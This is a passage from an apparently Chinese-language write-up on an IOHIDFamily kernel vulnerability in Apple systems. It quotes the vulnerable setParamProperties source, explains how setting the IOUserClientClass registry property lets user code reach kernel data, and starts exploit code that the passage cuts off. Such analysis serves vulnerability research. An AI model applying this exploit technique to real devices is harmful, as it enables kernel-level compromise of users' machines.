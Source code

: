 ```
            // setProperty(kIOHIDParametersKey, deviceParameters);
            // deviceParameters-&gt;release();

            OSCollectionIterator * iterator = OSCollectionIterator::withCollection(dict);
            if ( iterator ) `{`
                OSSymbol * key;

                while ( ( key = (OSSymbol *)iterator-&gt;getNextObject() ) )
                    if (    !key-&gt;isEqualTo(kIOHIDResetKeyboardKey) &amp;&amp; 
                            !key-&gt;isEqualTo(kIOHIDResetPointerKey) &amp;&amp; 
                            !key-&gt;isEqualTo(kIOHIDScrollResetKey) &amp;&amp; 
                            !key-&gt;isEqualTo(kIOHIDDeviceParametersKey) &amp;&amp; 
                            !key-&gt;isEqualTo(kIOHIDResetLEDsKey)) `{`
                        OSObject * value = dict-&gt;getObject(key);

                        deviceParameters-&gt;setObject(key, value);
                        setProperty(key, value);
                    `}`

                iterator-&gt;release();
            `}`

            setProperty(kIOHIDParametersKey, deviceParameters);
            deviceParameters-&gt;release();

            // RY: Propogate up to IOHIDEventService level
            if ( eventService )
                eventService-&gt;setSystemProperties(dict);

        `}`
        else `{`
            return kIOReturnNoMemory;
        `}`
    `}`

    return( kIOReturnSuccess );
`}`
```

漏洞点在`IOHIDevice::setParamProperties`方法上，该方法会迭代含有键值对的字典，并对每个健值对调用`setProperty`方法。

打开`IOHIDEventServiceClass`，该处代码重写了`setProperties`方法，以允许用户程序通过调用`IORegistryEntrySetCFProperty`方法，进入`io_registry_entry_set_properties`Mach陷阱设置属性。

[![](https://p4.ssl.qhimg.com/t01b3912b4cd415ec14.png)](https://p4.ssl.qhimg.com/t01b3912b4cd415ec14.png)

这样，我们可以在在IOHIDevice的实例上设置IOUserClientClass客户端类属性，然后会在内核中会分配一个IOUserClient子类，通过相应子类方法可以从用户态操作内核态的数据。示例代码：

```
void physic_init() `{`
    // Get a handle to a service that allows setting arbitrary IORegistry properties.
    io_service_t service = IOServiceGetMatchingService(kIOMasterPortDefault,
            IOServiceMatching(target_service));
    if (service == IO_OBJECT_NULL) `{`
        printf("could not find any services matching %s", target_service);
    `}`
    kern_return_t kr = IORegistryEntrySetCFProperty(service,
            CFSTR("IOUserClientClass"),
            CFSTR("xxxxxxxx"));
    if (kr != KERN_SUCCESS) `{`
        printf("could not set property: %x", kr);
    `}`
......
```